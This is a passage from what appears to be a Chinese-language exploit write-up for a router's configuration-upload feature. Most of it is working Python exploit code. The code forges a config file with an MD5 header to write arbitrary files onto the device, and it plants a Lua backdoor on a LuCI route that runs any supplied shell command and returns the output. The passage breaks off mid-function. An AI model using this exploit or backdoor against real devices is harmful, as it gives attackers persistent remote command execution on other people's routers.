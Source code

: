 ```python
    "file": ("config.bin", gen()),
}).json()

print(resp)

resp = requests.get(url + "/web-static/poc").text.strip()

if resp == poc:
    print("poc success")
else:
    print("poc fail", resp, poc)
```

![image-20220311104727490](https://cdn.yoshino-s.online//typora_img/image-20220311104727490.png)

成了，写cgi-bin没法+x执行不了，所以直接写rcS之类的，在这里我选择随便找个路由写个后门就完事了。exp如下

```python
import os
from time import sleep
import requests
import hashlib
import random

stok = "8506481037c7b6f28fd834e1affad2b3"

url = "http://192.168.1.1"

u = f"{url}/stok={stok}/admin/system/upload_conf"

poc = random.randbytes(16).hex()

files = {
    "/www/web-static/poc": poc,
    "/usr/lib/lua/luci/controller/admin/dmz.lua": """
local n = require("luci.torchlight.error")
module("luci.controller.admin.dmz", package.seeall)
function index()
    entry({"pc", "DMZCfg.htm"}, template("admin/DMZCfg")).leaf = true
    register_keyword_action("backdoor", "backdoor", "backdoor")
end
function backdoor(d)
    local e = {}
    if type(d) ~= "string" then
        return n.EINVARG
    end
    e["cmd"] = d
    local r = luci.sys.exec(d)
    e["result"] = r
    return n.ENONE, e
end
    """
}

def gen():
    file = ""
    for name, content in files.items():
        file+="@FILE_START@------------------------------------------\n"
        file+="@FILE_PATH@="+name+"\n"
        file+=content+"\n"
        file+="@FILE_END@------------------------------------------\n"
    md5 = hashlib.md5(file.encode("utf-8")).hexdigest()
    file = md5 + ",D26G Pro 2.0\n"+file
    with open("config.txt", "w") as f:
```